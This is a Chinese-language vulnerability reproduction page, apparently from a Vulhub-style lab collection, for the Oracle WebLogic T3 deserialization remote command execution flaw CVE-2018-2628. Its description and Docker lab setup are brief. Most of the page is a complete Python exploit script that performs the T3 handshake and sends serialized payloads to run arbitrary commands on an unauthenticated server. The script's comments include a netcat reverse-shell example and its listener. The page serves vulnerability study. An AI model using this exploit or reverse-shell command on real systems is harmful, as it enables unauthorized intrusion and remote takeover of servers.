



Weblogic WLS Core Components 反序列化命令执行漏洞 CVE-2018-2628¶
漏洞描述¶
Oracle 2018年4月补丁中，修复了Weblogic Server WLS Core Components中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过t3协议触发，可导致未授权的用户在远程服务器执行任意命令。
参考链接：
- http://www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html
- http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA
- https://github.com/tdy218/ysoserial-cve-2018-2628
环境搭建¶
Vulhub执行如下命令启动Weblogic 10.3.6.0：
docker-compose up -d
等待环境启动（环境差异，有的机器可能等待的时间比较久），访问http://your-ip:7001/console，初始化整个环境。

漏洞复现¶
首先下载ysoserial，并启动一个JRMP Server：
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
其中，[command]即为我想执行的命令，而[listen port]是JRMP Server监听的端口。

然后，使用exploit.py脚本（注意在python2环境下），向目标Weblogic（http://your-ip:7001）发送数据包：
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
其中，[victim ip]和[victim port]是目标weblogic的IP和端口，[path to ysoserial]是本地ysoserial的路径，[JRMPListener ip]和[JRMPListener port]第一步中启动JRMP Server的IP地址和端口。[JRMPClient]是执行JRMPClient的类，可选的值是JRMPClient或JRMPClient2。

exploit.py执行完成后，执行docker-compose exec weblogic bash进入容器中，可见/tmp/awesome_poc已成功创建。
漏洞POC¶
# -*- coding: utf-8 -*-
# Oracle Weblogic Server (10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3) Deserialization Remote Command Execution Vulnerability (CVE-2018-2628)
#
# IMPORTANT: Is provided only for educational or information purposes.
#
# Credit: Thanks by Liao Xinxi of NSFOCUS Security Team
# Reference: http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA
#
# How to exploit:
# 1. run below command on JRMPListener host
# 1) wget https://github.com/brianwrf/ysoserial/releases/download/0.0.6-pri-beta/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar
# 2) java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
# e.g. java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'nc -nv 10.0.0.5 4040'
# 2. start a listener on attacker host
# e.g. nc -nlvp 4040
# 3. run this script on attacker host
# 1) wget https://github.com/brianwrf/ysoserial/releases/download/0.0.6-pri-beta/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar
# 2) python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
# e.g.
# a) python exploit.py 10.0.0.11 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 10.0.0.5 1099 JRMPClient (Using java.rmi.registry.Registry)
# b) python exploit.py 10.0.0.11 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 10.0.0.5 1099 JRMPClient2 (Using java.rmi.activation.Activator)
from __future__ import print_function
import binascii
import os
import socket
import sys
import time
def generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
#generates ysoserial payload
command = 'java -jar {} {} {}:{} > payload.out'.format(path_ysoserial, jrmp_client, jrmp_listener_ip, jrmp_listener_port)
print("command: " + command)
os.system(command)
bin_file = open('payload.out','rb').read()
return binascii.hexlify(bin_file)
def t3_handshake(sock, server_addr):
sock.connect(server_addr)
sock.send('74332031322e322e310a41533a3235350a484c3a31390a4d533a31303030303030300a0a'.decode('hex'))
time.sleep(1)
sock.recv(1024)
print('handshake successful')
def build_t3_request_object(sock, port):
data1 = '000005c3016501ffffffffffffffff0000006a0000ea600000001900937b484a56fa4a777666f581daa4f5b90e2aebfc607499b4027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c657400124c6a6176612f6c616e672f537472696e673b4c000a696d706c56656e646f7271007e00034c000b696d706c56657273696f6e71007e000378707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b4c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00044c000a696d706c56656e646f7271007e00044c000b696d706c56657273696f6e71007e000478707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200217765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e50656572496e666f585474f39bc908f10200064900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463685b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b6167657371'
data2 = '007e00034c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00054c000a696d706c56656e646f7271007e00054c000b696d706c56657273696f6e71007e000578707702000078fe00fffe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c000078707750210000000000000000000d3139322e3136382e312e323237001257494e2d4147444d565155423154362e656883348cd6000000070000{0}ffffffffffffffffffffffffffffffffffffffffffffffff78fe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c0000787077200114dc42bd07'.format('{:04x}'.format(dport))
data3 = '1a7727000d3234322e323134'
data4 = '2e312e32353461863d1d0000000078'
for d in [data1,data2,data3,data4]:
sock.send(d.decode('hex'))
time.sleep(2)
print('send request payload successful,recv length:%d'%(len(sock.recv(2048))))
def send_payload_objdata(sock, data):
payload='056508000000010000001b0000005d010100737201787073720278700000000000000000757203787000000000787400087765626c6f67696375720478700000000c9c979a9a8c9a9bcfcf9b939a7400087765626c6f67696306fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200025b42acf317f8060854e002000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78707702000078fe010000'
payload+=data
payload+='fe010000aced0005737200257765626c6f6769632e726a766d2e496d6d757461626c6553657276696365436f6e74657874ddcba8706386f0ba0c0000787200297765626c6f6769632e726d692e70726f76696465722e426173696353657276696365436f6e74657874e4632236c5d4a71e0c0000787077020600737200267765626c6f6769632e726d692e696e7465726e616c2e4d6574686f6444657363726970746f7212485a828af7f67b0c000078707734002e61757468656e746963617465284c7765626c6f6769632e73656375726974792e61636c2e55736572496e666f3b290000001b7878fe00ff'
payload = '%s%s'%('{:08x}'.format(len(payload)/2 + 4),payload)
sock.send(payload.decode('hex'))
time.sleep(2)
sock.send(payload.decode('hex'))
res = ''
try:
while True:
res += sock.recv(4096)
time.sleep(0.1)
except Exception:
pass
return res
def exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(65)
server_addr = (dip, dport)
t3_handshake(sock, server_addr)
build_t3_request_object(sock, dport)
payload = generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)
print("payload: " + payload)
rs=send_payload_objdata(sock, payload)
print('response: ' + rs)
print('exploit completed!')
if __name__=="__main__":
#check for args, print usage if incorrect
if len(sys.argv) != 7:
print('\nUsage:\nexploit.py [victim ip] [victim port] [path to ysoserial] '
'[JRMPListener ip] [JRMPListener port] [JRMPClient]\n')
sys.exit()
dip = sys.argv[1]
dport = int(sys.argv[2])
path_ysoserial = sys.argv[3]
jrmp_listener_ip = sys.argv[4]
jrmp_listener_port = sys.argv[5]
jrmp_client = sys.argv[6]
exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)